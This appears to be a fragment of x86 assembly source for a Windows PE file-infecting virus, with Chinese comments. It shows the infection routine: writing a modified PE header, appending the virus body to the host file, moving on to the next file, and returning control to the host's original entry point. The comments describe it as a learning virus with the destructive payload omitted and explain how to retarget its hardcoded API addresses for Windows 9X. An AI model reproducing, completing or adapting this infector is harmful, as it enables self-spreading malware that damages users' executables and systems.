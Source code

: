     push 0h
    lea eax, ReadCount[ebp]
    push eax
    push HeadLength[ebp]
    lea eax, PEHead[ebp]
    push eax
    push OpenHandle[ebp]
    call ZWriteFile ; 写入新的PE头
    cmp eax, 0h
    jz write_err

    push FILE_BEGIN
    push 0h
    push NewSection[ebp].RawOffset
    push OpenHandle[ebp]
    call ZSetFilePointer ; 指向病毒代码写入处（应该在文件尾）

    push 0h
    lea eax, ReadCount[ebp]
    push eax
    push NewSection[ebp].RawSize
    lea eax, virus_start[ebp]
    push eax
    push OpenHandle[ebp]
    call ZWriteFile ; 写入病毒代码
    cmp eax, 0h
    jz write_err

end_modify:
read_err:
write_err:
setpointer_err:
    push OpenHandle[ebp]
    call ZCloseHandle ; 关闭文件
    
create_err:

    ret 
; 感染完毕，ret后继续查找下一个文件。

end_find:
    push FindHandle[ebp]
    call ZFindClose ; 停止查找

; 此处放置破坏代码（包括破坏条件和破坏内容），不过本病毒用于学习，就不放了。：）
    
    push Ret_Entry[ebp] ; 此处为返回寄主程序的入口地址
    ret
; ret从堆栈中取一个值作为跳回的地址，所以，先压入原入口点，再ret就回到了寄主程序入口。

;==========================================<<病毒代码结束

;==========================================>>函数声明
这里的地址都是NT中的对应API地址，如果要改为9X下执行，就把地址值改为9X的。（地址可以用W32DASM得到。）
    ZCreateFile:
    mov FunctionAddress[ebp], 77e5a837h
    jmp FunctionAddress[ebp]
